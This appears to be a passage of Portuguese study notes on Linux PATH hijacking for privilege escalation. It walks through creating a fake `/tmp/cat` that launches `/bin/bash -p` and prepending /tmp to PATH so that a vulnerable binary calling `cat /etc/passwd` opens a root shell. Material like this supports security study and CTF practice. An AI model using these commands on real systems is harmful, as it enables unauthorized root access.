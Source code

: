 **Forma Errada** (Ignora seu diretório malicioso)
```
export PATH=$PATH:/tmp
```
- **Por quê?**
    - Adiciona `/tmp` **no final** do `PATH`.
    - O sistema **só usará seu `cat` malicioso se não encontrar o comando nos diretórios anteriores** (`/bin`, `/usr/bin`, etc.).
---

**Exemplo Prático**

Suponha que:

1. O binário vulnerável chama `system("cat /etc/passwd")` (sem `/bin/cat`).
    
2. Você cria um `cat` malicioso em `/tmp`:
```
echo -e '#!/bin/sh\n/bin/bash -p' > /tmp/cat && chmod +x /tmp/cat
```   
    
3. **Modifica o `PATH` corretamente**:

```
export PATH=/tmp:$PATH
```    

4. **Executa o binário vulnerável**:
```   
./binario_vulneravel  # Agora executa SEU /tmp/cat (shell root)!
```

---

##### **Observações Importantes**

1. **Não use `PATH=/tmp` sozinho**
    
    - Isso **remove todos os outros diretórios** do `PATH`, quebrando comandos básicos (`ls`, `echo`, etc.).
        
    - Seu script malicioso pode até **falhar** se depender de outros binários.
        
2. **Sempre verifique a ordem do `PATH`**
```
echo $PATH
```

 - Certifique-se de que seu diretório malicioso (**`/tmp`**) está **no início**.
  
        
3. **Use `env` para testes isolados**

    `env PATH=/tmp:$PATH ./binario_vulneravel`
    
    - Altera o `PATH` apenas para esse comando, sem afetar o terminal atual.
---

**Dica:** Sempre use `which comando` para ver **qual versão** está sendo chamada.  
Exemplo:
```
which cat  # Mostra se está pegando o /tmp/cat ou /bin/cat
```
